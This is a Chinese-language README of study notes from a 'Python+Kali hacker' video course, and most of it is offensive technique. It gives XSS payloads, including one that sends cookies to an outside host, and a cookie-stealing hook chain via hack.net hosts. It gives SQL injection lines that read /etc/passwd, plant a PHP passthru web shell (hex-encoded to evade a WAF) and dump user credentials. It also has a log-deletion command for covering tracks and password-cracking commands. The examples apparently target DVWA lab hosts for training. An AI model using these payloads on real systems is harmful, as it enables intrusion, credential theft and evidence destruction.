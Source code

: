 # [乾颐堂](https://www.qytang.com/) Python+Kali黑客全套教程

## 0x00 视频 + 源码 + PDF

- videos
  - [Python+Kali黑客全套教程，全程干货+实战技术，小白学习从入门到入狱](https://www.bilibili.com/video/BV17V4y157ih/?spm_id_from=333.337.search-card.all.click&vd_source=7f220845f0d7bc792a045e75a5ac8b8d)
  - [python+kali的全套黑客编程实践教程，全知识点+实践练习，（针对小白/python/kali/网络安全）](https://www.bilibili.com/video/BV1bG4y1H784/?spm_id_from=333.337.search-card.all.click&vd_source=7f220845f0d7bc792a045e75a5ac8b8d)
  - [Python+Kali黑客全套教程，全程干货+实战技术，小白学习从入门到入狱](https://www.bilibili.com/video/BV17V4y157ih/?vd_source=7f220845f0d7bc792a045e75a5ac8b8d#reply136957487232)

- 源码 + PDF

  需要 + up 主 wx

- PDF

  暂存本地 [python&kali 教程](待定)



## 0x01 简单记录

<!--last modify: 20230922-->

- 扫描工具

  ping  /  fping / nping / arping / nbtscan / onesixtyone

- python + nmap

  ```tex
  # https://pypi.org/project/python-nmap/
  # pip install python-nmap
  # import nmap
  ```

  - pypi 中有相关使用方法

- 痕迹清理

  ```shell
  del %WINDIR%\*.log /a/s/q/f # 强制静默删除只读文件
  ```

- nexpose api

  ```tex
  https://<host>:<port>/api/api-version/xml
  ```

- 协议攻击

  ```tex
  mac 泛洪 + mac 欺骗
      macof
      # 防御 port security 技术
  
  dhcp 攻击
      pig.py 干掉合法dhcp 服务器
      非法dhcp 服务器开始干活儿
      # 防御 dhcp snooping 技术
  
  arp 攻击
      arpspoof
      # 防御 DAI 技术
  
  dns spoofing
      ettercap # dns 欺骗
      set # 社会工程学
  ```

- windows 沙盒探测



- web 工具

  ```tex
  BurpSuite
  	Proxy 代理 / Intruder 攻击 / Repeater 重放
      Comparer 可比较两个不同请求页面的响应区别
      Spider 手工爬取+自动爬取
      Scanner 手工+自动
      Sequencer 自动确认Cookies 随机性
      Decoder + Extender 编/解码(绕过) + 扩展(WAF 绕过等)
  AppScan
  ```

- XSS POC & 攻击技巧

  ```tex
  # 手工改确认
  	1. 脚本：<script>alert('xss')</script> # <scr<Script>ipt>alert('xss')</script>
  	2. 超链接：<a href='' onclick=alert('xss')>click it</a>
  	3. 图片：<img src=http://172.16.1.23/a.jpgg onerror=alert('xss')>
  	4. 重定向：<script>window.location="http://www.testfire.net/index.jsp"</script>
  	5. iframe：<iframe width=300 height=100 src="http://dvwa.com/xss_vul/?name=<script>window.location='http://baidu.com/login_cookie.php?sid='%2Bdocumet.cookie;</script>"></iframe>
  	6. DOM：<script>document.body.ierHTML="<div style=visibility.visible;><br/><br/><h1>test</h1></div>";</script>
  
  # 攻击技巧
  	1. hook
  	2. keylogger
      /*
      1. 诱导受害者访问钓鱼网站
      2. 钓鱼网站触发访问目标(可信本地存在cookie)站点
      3. 触发本地PC 下载hook.js 文件
      4. 本地PC 运行hook.js 文件，获取cookie
      5. 发给hacker 站点，收集cookie
      6. hacker 站点以邮件形式发出
  
      http://target.vulhost.com/xss.php # 目标站点
      http://gofish.hack.net/index.jsp # 社工伪造钓鱼网站
      http://hook.hack.net/xss_hook.js # hook 站点
      http://collect.hack.net/xss_hook2email.php # 通过hook 站点收集信息的站点
      */
  
  # 注入点/注入位置
  [XSS 注入点](https://www.xjx100.cn/news/432525.html?action=onClick)
  # 常见绕过方式
  (替换)双写/大小写/转码
  # 存储型XSS
  前端表单长度限制，PC 端修改源码
  1 DOM 型XSS
  在URL 中符号'#' 后面的不会发送给服务端，但响应页面包含符号'#' 后内容且运行写入内容至PC 页面
  存在解码与否问题
  ```
  
- XSS 工具

  ```tex
  # xsser
      1. xsser -u "http://dvwa.com/vulnerabilities/xss_r/" -g "?name=" --cookie="PHPSESSID=h5btppesjqq99igfrc2lr24in4; security=low" -s -V --reverse-check # 反向检查
      2. xsser -u "http://dvwa.com/vulnerabilities/xss_r/" -g "?name=" --cookie="PHPSESSID=h5btppesjqq99igfrc2lr24in4; security=low" -s -V --heuristic # 检查
  
  # BeEF / beef-xss
  	Hooked 主机信息/键盘与鼠标记录查询/Commands 命令模块(颜色)
  	1. Get Cookie / 查表单填写内容 / 获取或修改页面超链接 / 弹出警告页面 / 查询Bug 软件 / 浏览器页面拍照 / 控制PC 进行DoS 等攻击 / 禁止关闭窗口 / 弹窗
  ```
  
- 密码破解

  ```tex
  # hash-identifier
  # john
  	john --format=raw-MD5 user_pass.txt --show
  ```

- SQL 注入

  ```tex
  # 读取服务器重要文件
  ' union select null, load_file('/etc/passwd') --+
  
  # 禁用PrivateTemp 功能
  # /usr/lib/systemd/system/mariadb.service
  # /user/lib/systemd/system/httpd.service
  # 修改PrivateTemp=off
  systemctl daemon-reload
  systemctl restart mariadb.service
  systemctl restart httpd.service
  
  # 写入文件
  ' union select null, "<?php passthru($_GET['cmd']); ?>" into dumpfile "/tmp/cmd.php" --+
  
  # 文件包含漏洞执行代码
  http://www.dvwa.com/vulnerabilities/fi/?page=/tmp/cmd.php&cmd=id
  
  # 防WAF 过滤对PHP 脚本进行转码
  <?php passthru($_GET['cmd']);?> # shell_cmd.php
  
  # 转16 进制
  echo "<?php passthru($_GET['cmd']);?>" |xxd -ps |tr -d '\n' # 3c3f706870207061737374687275285b27636d64275d293b3f3e0a
  
  # 注入
  ' union select null, (3c3f706870207061737374687275285b27636d64275d293b3f3e0a) into dumpfile "/tmp/cmd.php" --+
  
  # 文件包含漏洞执行代码
  http://www.dvwa.com/vulnerabilities/fi/?page=/tmp/cmd.php&cmd=id
  
  # 数据库写入文件
  ' union select null, concat(user, 0x3a, password) from users into outfile '/tmp/mysql.db' --+
  # 批量下载数据库
  http://www.dvwa.com/vulnerabilities/fi/?page=/tmp/mysql.db
  ```

- SQL 注入无权查询inforation_schema 表时

  ```tex
  # ' and column_name is null --+ # 猜列名
  select * from users where id = '' and column_name is null --+ # 如column_name 为username
  
  # ' or column_name='column_value # 猜列值，如列名user 中是否有admin
  # ' or column_name like '%char% # 猜列值，如列名user 中列值是否包含字符a
  # ' or column_name='column_value1' and column_value2='5f4dcc3b5aa765d61d8327deb882cf99 # 爆破密码，如已知列名user 和列值1 为admin，猜另一列值password 
  
  # ' and tables_name.column_name is null --+ # 猜表名
  select * from users where id = '' and tables_name.column_name is null --+ # 如tables_name.column_name 为users.username
  
  # ' and (select count(*) from tables_name) > 0 --+ # 猜表名，可暴露当前使用的数据库名
  ```
  
- CSRF 攻击

  ```tex
  # 关键性操作，二次验证；付款、改密等
  # BP 抓包右击》Engagement tools》Generate CSRF PoC (生成的HTML 视)
  ```

  
